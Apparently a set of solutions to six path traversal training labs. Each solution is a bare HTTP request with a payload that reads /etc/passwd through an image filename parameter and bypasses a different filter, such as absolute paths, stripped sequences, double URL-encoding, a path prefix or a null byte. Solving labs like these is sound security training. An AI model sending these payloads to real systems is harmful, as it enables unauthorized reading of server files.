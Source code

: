 ## Lab - 1: File path traversal, simple case

```
GET /image?filename=../../../etc/passwd HTTP/1.1
...
Referer: https://0ab800f904abed05c02be352002e0049.web-security-academy.net/product?productId=1
...
```

---

## Lab - 2: File path traversal, traversal sequences blocked with absolute path bypass

```
GET /image?filename=/etc/passwd HTTP/1.1
...
Referer: https://0ab800f904abed05c02be352002e0049.web-security-academy.net/product?productId=1
...
```

---

## Lab - 3: File path traversal, traversal sequences stripped non-recursively

```
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
...
Referer: https://0ab800f904abed05c02be352002e0049.web-security-academy.net/product?productId=1
...
```

---

## Lab - 4: File path traversal, traversal sequences stripped with superfluous URL-decode

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1
...
Referer: https://0ab800f904abed05c02be352002e0049.web-security-academy.net/product?productId=1
...
```

---

## Lab - 5: File path traversal, validation of start of path

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
...
Referer: https://0ab800f904abed05c02be352002e0049.web-security-academy.net/product?productId=1
...
```

## Lab - 6: File path traversal, validation of file extension with null byte bypass

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
...
Referer: https://0ab800f904abed05c02be352002e0049.web-security-academy.net/product?productId=1
...
```
